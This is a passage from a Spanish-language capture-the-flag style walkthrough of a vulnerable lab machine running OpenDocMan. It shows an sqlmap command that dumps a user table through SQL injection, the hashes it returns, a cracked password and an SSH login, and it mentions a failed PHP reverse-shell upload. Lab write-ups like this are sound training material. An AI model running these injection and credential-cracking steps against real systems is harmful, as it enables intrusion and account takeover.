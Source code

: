 El siguiente paso fue editar el password del usuario llamado **WebMin** para poder subir archivos a la aplicación sin restricciones:


![img]({{ '/assets/images/Fristileaks/opendocman_05.png' | relative_url }}){: .center-image }*(Password 12345)*

Después de eso se puede acceder con el usuario **WebMin**. La idea era subir el tan conocido shell reverso en php al sitio y se puede hacer pero al no lograr ejecutarlo del lado del servidor está vía de ataque quedó muerta.

A ver la otra vulnerabilidad...

---

La otra vulnerabbilidad consiste en la capacidad de ejecutar un **SQLi** a la página, de esta forma se logra conseguir el password verdadero del usuario **Webmin** que es el mismo que a fin de cuentas nos permite loguearnos a través del protocolo **SSH**.

Para realizar el ataque de SLQi se utilza la herramienta **SQLMap**, cabe aclarar que **durante el exámen para ser **OSCP** no está permitido usar esta herramienta...**

---

>**``sqlmap -u "http://10.0.0.123/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump``**
---

```console
Database: jabcd0cs
Table: odm_user
[2 entries]
+----+--------------------+-------------+----------+----------------------------------+-----------+------------+------------+---------------+
| id | Email              | phone       | username | password                         | last_name | first_name | department | pw_reset_code |
+----+--------------------+-------------+----------+----------------------------------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212  | webmin   | b78aae356709f8c31118ea613980954b | min       | web        | 2          | <blank>       |
| 2  | guest@example.com  | 555 5555555 | guest    | 084e0343a0486ff05530df6c705c8bb4 | guest     | guest      | 2          | NULL          |
+----+--------------------+-------------+----------+----------------------------------+-----------+------------+------------+---------------+
```
Una búsqueda rápida del hash en md5 del password del usuario admin arroja que el verdadero password era **webmin1980**

---

### **Protocolo SSH**

---

>**``ssh webmin@10.0.0.123``**

---
